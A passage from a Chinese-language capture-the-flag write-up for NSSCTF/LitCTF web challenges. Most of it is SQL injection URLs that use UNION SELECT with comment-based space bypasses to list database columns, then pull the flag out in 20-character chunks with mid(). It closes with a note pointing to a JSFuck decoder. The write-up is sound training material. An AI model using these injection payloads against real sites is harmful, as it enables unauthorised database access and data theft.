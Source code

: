 爆列：

```url
http://node4.anna.nssctf.cn:28915/?wllm=-1'union/**/select/**/1,2,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema/**/like/**/'test_db'%23
```

爆flag：

```url
http://node4.anna.nssctf.cn:28915/?wllm=-1'union/**/select/**/1,2,group_concat(flag)/**/from/**/test_db.LTLT_flag%23
```

一次只有20位，采取截断，一次一次输出：

```url
http://node4.anna.nssctf.cn:28915/?wllm=-1'union/**/select/**/1,2,mid(group_concat(flag),20,20)/**/from/**/test_db.LTLT_flag%23
http://node4.anna.nssctf.cn:28915/?wllm=-1'union/**/select/**/1,2,mid(group_concat(flag),40,20)/**/from/**/test_db.LTLT_flag%23
```

## 20.[LitCTF 2023]1zjs

JsFuck，在这里解密：http://codertab.com/JsUnFuck
